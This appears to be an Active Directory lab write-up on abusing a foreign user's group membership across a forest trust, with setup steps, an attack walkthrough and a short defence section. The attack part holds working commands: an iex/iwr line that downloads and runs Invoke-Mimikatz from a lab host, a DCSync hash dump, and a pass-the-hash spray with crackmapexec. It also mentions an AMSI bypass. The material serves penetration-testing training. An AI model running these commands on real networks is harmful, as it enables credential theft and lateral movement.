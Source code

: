 # Foreign user

## Configuring

1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../.gitbook/assets/image (17).png>)

3\. Open the "Users" directory and right click it, then select "New" and then "Users".

4\. Create a new user with the name `secure_admin` and the password `rFKbUJrDu$sz*36ffKr6`.

![](<../../.gitbook/assets/image (22).png>)

5\. Make sure "Password never expires" is checked and "User must change password at next logon" is unchecked when creating the user.

6\. to `DC03` with the `Administrator` user and the password `Welcome01!`.

7\. Open the "Active Directory Users and Computers" administration tool.

8\. Open the "Users" directory and right click it, then select "New" and then "Group".

9\. Make a new group with the name `Local admin data` and select group scope "Domain Local".

![](<../../.gitbook/assets/image (77).png>)

10\. Right click the group and select "Properties". Click on the "Members" tab and click on "Add"

11\. Click on "Locations" and select bank.local.

![](<../../.gitbook/assets/image (59).png>)

12\. Enter the username secure\_admin and click "Check Names" and then click "OK".

![](<../../.gitbook/assets/image (65).png>)

13\. Click "Apply" and then "OK".

14\. To make the group local admin to the DATA01 server there are two options

* Login to the machine and use the net command to add the group to the local administrators group.
* Deploy a GPO to make the group local admin on the machine.

15\. We will go with the first step since its just easier for the lab setup, but normally IT would deploy it with GPO. So login with the username Administrator and password Welcome01! to DATA01 and execute the following command:

```
net localgroup administrators "local admin data" /add
```

![](<../../.gitbook/assets/image (64).png>)

## Attacking

### How it works

If there is a trust between two forests, it is possible to add a user of domain A to a group in domain B. If for example this group gives local admin privileges to a system in forest B then after taking over that user it is possible to gain access to domain B using that account. Depending on the trust flow configured between the domains(one way or two way trust), they can both add other users or only one domain can add users.

Meaning that if you take over domain A you can easily access domain B by enumerating the groups which have a foreign user from domain A. I see this often used for having one admin account to manage both domains for example.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

This attack is executing from the perspective of already gaining Enterprise Admin privileges within the `bank.local` admin.

1. To easily execute the attack login on `DC01` with the user `Administrator` and the password `Welcome01!`.
2. Start PowerShell and load an amsi and PowerView into memory:

![](<../../.gitbook/assets/image (57).png>)

3\. With the PowerView cmdlet `Get-DomainForeigGroupMember` we can query the target domain for users in groups that aren't from their domain.

```
Get-DomainForeignGroupMember -Domain secure.local
```

![](<../../.gitbook/assets/image (44).png>)

4\. The output shows us that there is a foreign user in the `Local admin data` group and that the member is `S-1-5-21-320929719-844265543-1524670925-1602`.  To get the user name we can use the `ConvertFrom-SID` cmdlet from PowerView:

```
ConvertFrom-SID S-1-5-21-320929719-844265543-1524670925-1602
```

![](<../../.gitbook/assets/image (78).png>)

5\. The user `bank\secure_admin` from `bank.local` is member of `local admin data` in `secure.local`. We can also see this in bloodhound after collecting the data for both domains and loading it into the BloodHound GUI.

```
Invoke-BloodHound -Collectionmethod all -Domain secure.local
Invoke-BloodHound -Collectionmethod all -Domain bank.local
```

After clicking on "Users with Foreign Domain Group Membership" and selecting `Secure.local` under the "Dangerous Rights" section in the "Analysis" tab we see:

![](<../../.gitbook/assets/image (75).png>)

6\. Since we are already domain admin we could simply reset the password for the `secure_admin` user. But this isn't OPSEC safe, so we can execute a dcsync to grab its NTLM hash and then use it to spray against the other domain computers to check if the user has access to any machine. To execute the DCSync load MimiKatz into memory and use the following command:

```
iex (iwr http://192.168.248.2:8090/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:bank\secure_admin /domain:bank.local"'
```

![](<../../.gitbook/assets/image (16).png>)

7\. The next step would be to spray this hash against all systems of the secure.local domain. But its just easier to spray it against the whole subnet with crackmapexec. To do this we use the following command:

```
cme smb 10.0.0.0/24 -u secure_admin -H a0f6b4d3c6a9da1204520ccd72e54597 -d bank.local
```

![](<../../.gitbook/assets/image (39).png>)

8\. The user `secure_admin` from `bank.local` is local admin to the `DATA01` machine from `secure.local`.

## Defending

### Recommendations

I would recommend to not add users from other domains in privileged groups if you don't FULLY trust the other domain to be secure. But this is a risk based decision to make.

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}
